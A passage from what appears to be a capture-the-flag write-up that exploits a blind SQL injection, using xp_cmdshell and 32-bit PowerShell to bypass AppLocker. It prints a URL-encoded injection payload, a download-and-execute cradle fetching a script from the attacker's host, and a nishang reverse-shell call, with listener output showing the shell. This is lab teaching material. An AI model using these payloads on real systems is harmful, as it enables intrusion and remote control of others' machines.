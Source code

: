 This works! So I know I can access PowerShell Using that path and structure. It seems that AppLocker is likely blocking this account running PowerShell, but the admin forgot about the 32-bit version.

#### Reverse Shell [Option 1]

Because I’m dealing with a blind injection here, I’m going to start with a simple payload that downloads and runs a Powershell script from my server:

```

C:\windows\syswow64\windowspowershell\v1.0\powershell.exe "iex(new-object net.webclient).downloadstring(\"http://10.10.14.6/rev.ps1\")"

```

I’ll have to `\` escape the `"`, and then URL-encode it into this payload:

```

logintype=3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"iex(new-object+net.webclient).downloadstring(\"http%3a//10.10.14.6/rev.ps1\")"'%3b&username=admin&password=admin&rememberme=ON&B1=Login

```

When I run this, there’s a request for `REV.PS1` on my server:

```
10.10.10.72 - - [24/Apr/2022 10:55:24] "GET /REV.PS1 HTTP/1.1" 200 - 

```

It’s interesting that the MSSQL instance is upper-casing everything, but I can work with that.

I’ll grab a copy of `Invoke-PowerShellTcp.ps1` from [GitHub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), and name it `REV.PS1`. I’ll add a line at the end of it to call itself:

```

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443

```

Now when I run, I get a shell:

```

oxdf@hacky$ rlwrap -cAr ncat -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.72.
Ncat: Connection from 10.10.10.72:49237.
Windows PowerShell running as user sqlserv on FIGHTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
fighter\sqlserv

```
